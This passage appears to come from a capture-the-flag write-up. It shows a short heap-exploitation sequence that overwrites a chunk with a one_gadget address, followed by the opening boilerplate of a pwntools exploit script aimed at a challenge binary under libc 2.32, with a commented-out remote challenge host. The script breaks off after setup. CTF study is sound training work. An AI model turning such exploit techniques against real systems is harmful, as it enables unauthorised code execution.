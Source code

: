 ```bash
add(9,0x80)
add(10,0x80)
edit(10,p64(og))
delete(0)
```

[![](assets/1701612290-23b04f28e54feab5076d59be3bbb9e0f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230714145809-cad51796-2213-1.png)

### exp

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

#p=process('./pwn')
p=process(['ld-2.32.so',"./pwn"],env={"LD_PRELOAD":'./libc-2.32.so'})
#p=remote('node3.anna.nssctf.cn',28438)
elf = ELF('./pwn')
libc=ELF('./libc-2.32.so')
#libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')


```
